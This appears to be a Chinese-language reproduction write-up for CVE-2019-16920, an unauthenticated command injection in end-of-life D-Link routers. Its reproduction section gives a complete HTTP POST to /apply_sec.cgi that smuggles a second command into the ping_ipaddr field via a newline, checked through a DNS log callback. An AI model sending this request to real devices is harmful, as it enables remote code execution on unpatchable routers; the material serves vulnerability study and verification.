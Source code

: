 ## 漏洞简介

2019年9月，Fortinet的FortiGuard Labs发现并向官方反馈了D-Link产品中存在的一个未授权命令注入漏洞（FG-VD-19-117/CVE-2019-16920），成功利用该漏洞后，攻击者可以在设备上实现远程代码执行（RCE）。由于攻击者无需通过身份认证就能远程触发该漏洞，因此我们将该漏洞标记为高危级别漏洞。

根据我们的测试，搭载最新版固件的如下D-Link产品存在该漏洞：


    DIR-655
    DIR-866L
    DIR-652
    DHP-1565

在本文撰写时，这些产品已超出产品支持生命周期（EOL），这意味着厂商不会再为我们发现的问题提供补丁。FortiGuard Labs在此感谢厂商的快速响应，建议用户尽快升级到新的设备。


## 漏洞复现

登录页面长这样（DIR-866L)

![](assets/login.png)


构造如下请求包

```
POST /apply_sec.cgi HTTP/1.1
Host: 162.xxx.xxxx.60:55555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Connection: close
Referer: http://162.xxx.xxx.60:55555/
Upgrade-Insecure-Requests: 1

html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0aping%20http://1234.dnslog平台地址
```


实际上就是一个命令注入，通过换行符（%0a）截断ping命令，然后插入自己想要执行的命令，上面的payload执行了ping命令，用dnslog的方式检测漏洞是否存在

效果如下

![](assets/dnslog.png)

证明漏洞存在